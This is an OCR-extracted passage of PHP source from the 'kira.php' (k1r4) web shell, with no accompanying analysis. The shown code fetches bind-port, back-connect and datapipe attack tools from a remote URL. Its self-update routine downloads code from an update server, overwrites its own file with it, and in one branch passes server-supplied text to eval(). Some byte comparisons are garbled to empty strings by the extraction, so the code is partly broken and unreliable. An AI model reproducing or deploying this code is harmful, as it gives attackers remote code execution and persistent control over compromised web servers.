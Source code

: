 {
 if (!is_readable($o)) {return "&lt;font color=red&gt;".view_perms(fileperms($o))."&lt;/font&gt;";}
 elseif (!is_writable($o)) {return "&lt;font color=white&gt;".view_perms(fileperms($o))."&lt;/font&gt;";}
 else {return "&lt;font color=green&gt;".view_perms(fileperms($o))."&lt;/font&gt;";}
}
}
if (!function_exists("k1r4getsource"))
{
function k1r4getsource($fn)
{
 global $k1r4_sourcesurl;
 $array = array(
  "k1r4_bindport.pl" =&gt; "k1r4_bindport_pl.txt",
  "k1r4_bindport.c" =&gt; "k1r4_bindport_c.txt",
  "k1r4_backconn.pl" =&gt; "k1r4_backconn_pl.txt",
  "k1r4_backconn.c" =&gt; "k1r4_backconn_c.txt",
  "k1r4_datapipe.pl" =&gt; "k1r4_datapipe_pl.txt",
  "k1r4_datapipe.c" =&gt; "k1r4_datapipe_c.txt",
 );
 $name = $array[$fn];
 if ($name) {return file_get_contents($k1r4_sourcesurl.$name);}
 else {return FALSE;}
}
}
if (!function_exists("k1r4_getupdate"))
{
function k1r4_getupdate($update = TRUE)
{
 $url = $GLOBALS["k1r4_updateurl"]."?version=".urlencode(base64_encode($GLOBALS["shver"]))."&updatenow=".($updatenow?"1":"0")."&";
 $data = @file_get_contents($url);
 if (!$data) {return "Can't connect to update-server!";}
 else
 {
  $data = ltrim($data);
  $string = substr($data,3,ord($data{2}));
  if ($data{0} == "" and $data{1} == "") {return "Error: ".$string; return FALSE;}
  if ($data{0} == "" and $data{1} == "") {return "You are using latest version!";}
  if ($data{0} == "" and $data{1} == "")
  {
   $string = explode("",$string);
   if ($update)
   {
    $confvars = array();
    $sourceurl = $string[0];
    $source = file_get_contents($sourceurl);
    if (!$source) {return "Can't fetch update!";}
    else
    {
     $fp = fopen(__FILE__,"w");
     if (!$fp) {return "Local error: can't write update to ".__FILE__."! You may download kira.php manually &lt;a href=\"".$sourceurl."\"&gt;&lt;u&gt;here&lt;/u&gt;&lt;/a&gt;.";}
     else {fwrite($fp,$source); fclose($fp); return "Thanks! Updated with success.";}
    }
   }
   else {return "New version are available: ".$string[1];}
  }
  elseif ($data{0} == "" and $data{1} == "") {eval($string); return 1;}
  else {return "Error in protocol: segmentation failed! (".$data.") ";}
 }
}
}
if (!function_exists("mysql_dump"))